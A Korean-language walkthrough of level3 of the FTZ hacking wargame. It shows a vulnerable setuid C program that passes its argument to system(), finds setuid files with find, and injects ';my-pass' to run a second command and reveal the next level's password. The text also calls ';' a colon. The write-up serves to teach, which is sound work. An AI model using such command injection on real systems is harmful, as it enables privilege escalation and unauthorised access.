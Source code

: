 ## level3

#### 실행

``` //
[level3@ftz level3]$cat hint // hint 파일의 내용을 화면에 출력한다.
```

#### 결과

```
다음 코드는 autodig의 소스이다.

#include <stdio.h>
#include <stdlib.h> 
#include <unistd.h>
int main(int argc, char **argv){
 char cmd[100];
 if( argc!=2 ){
 printf( "Auto Digger Version 0.9\n" );
 printf( "Usage : %s host\n", argv[0] );
 exit(0);
 }
 strcpy( cmd, "dig @" );
 strcat( cmd, argv[1] );
 strcat( cmd, " version.bind chaos txt");
 system( cmd );
}

이를 이용하여 level4의 권한을 얻어라.
more hints.
- 동시에 여러 명령어를 사용하려면?
- 문자열 형태로 명령어를 전달하려면? 
```

--------

#### 실행

```
[leve13@ftz level3]$find / -user level4 -perm -4000 2>/dev/null // 루트 디렉토리부터 level4 소유의 최소 setUID가 설정되어 있는 파일을 찾고 표준 에러를 휴지통으로 리다이렉트한다.
```

#### 결과

```/bin/ExceteMe
/bin/autodig
```

---------

#### 실행

```
[level3@ftz level3]$./bin/autodig ";my-pass" //autodig 실행
```

c언어에서 main()에 전달되는 인자의 개수는 argc, main()에 전달되는 문자열은 argv라 한다.

기본적으로 실행 경로나 실행 파일의 이름을 인자로 전달받으므로 argc는 1, argv[0]에는 실행 경로나 실행 파일의 이름이 저장된다.

추가적인 문자열 인자를 전달하고 싶을 때는 실행 파일 이름 뒤에 큰따옴표로 인자를 묶은 후 파일을 실행하면 된다.

동시에 여러 명령어를 실행하기 위해서는 각 명령어를 ;(콜론)으로 나눠줘야 한다.

#### 결과

```
dig: Counldn't find server '': Name or service not known
Level4 Password is "suck my brain"
```
